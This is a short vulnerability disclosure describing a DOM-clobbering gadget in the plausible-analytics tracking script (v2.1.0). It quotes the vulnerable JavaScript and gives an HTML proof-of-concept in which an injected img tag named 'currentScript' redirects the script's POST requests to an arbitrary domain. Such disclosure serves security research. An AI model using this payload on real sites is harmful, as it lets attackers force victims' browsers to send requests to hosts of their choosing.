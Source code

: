 ## plausible-analytics

### Meta

+ Library: plausible-analytics
+ Stars: 19.7K
+ Version: v2.1.0
+ Fingerprint: N/A
+ Payload: ```<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">```
+ Impact: CSRF
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk

### Library

https://github.com/plausible/analytics

### Vulnerable Code Snippet

```javascript
    var a = window.location
      , r = window.document
      , o = r.currentScript
      , l = o.getAttribute("data-api") || new URL(o.src).origin + "/api/event";
    function s(t, e) {
        t && console.warn("Ignoring Event: " + t),
        e && e.callback && e.callback()
    }
    function t(t, e) {
        if (/^localhost$|^127(\.[0-9]+){0,2}\.[0-9]+$|^\[::1?\]$/.test(a.hostname) || "file:" === a.protocol)
            return s("localhost", e);
        if ((window._phantom || window.__nightmare || window.navigator.webdriver || window.Cypress) && !window.__plausible)
            return s(null, e);
        try {
            if ("true" === window.localStorage.plausible_ignore)
                return s("localStorage flag", e)
        } catch (t) {}
        var i = {}
          , n = (i.n = t,
        i.u = a.href,
        i.d = o.getAttribute("data-domain"),
        i.r = r.referrer || null,
        e && e.meta && (i.m = JSON.stringify(e.meta)),
        e && e.props && (i.p = e.props),
        new XMLHttpRequest);
        n.open("POST", l, !0),
        n.setRequestHeader("Content-Type", "text/plain"),
        n.send(JSON.stringify(i)),
        n.onreadystatechange = function() {
            4 === n.readyState && e && e.callback && e.callback({
                status: n.status
            })
        }
    }
```

## PoC

```html
<!--Library-->
<script defer data-domain="mydomain.com" src="https://plausible.io/js/script.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">
<!--Payload-->
```

The gadgets helps attacker to send arbitrary post request to arbitrary domain on the vicitim's browser. 